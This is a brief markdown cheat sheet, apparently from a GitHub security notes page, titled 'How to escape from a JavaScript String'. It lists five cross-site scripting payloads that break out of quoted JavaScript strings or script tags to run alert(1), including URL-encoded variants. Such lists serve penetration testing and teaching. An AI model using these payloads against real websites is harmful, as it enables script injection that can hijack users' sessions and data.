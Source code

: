 ```yaml
---
layout: default
title: How to escape from a JavaScript String
---
```


1. `' + alert(1) + '`
2. `\' + alert(1) + \'`
3. `</script><script>alert()</script>//`
4. `\'+%2b+alert(1)//` , `\'-alert(1)//`
5. Playing with url & html encoded `' " <> \`
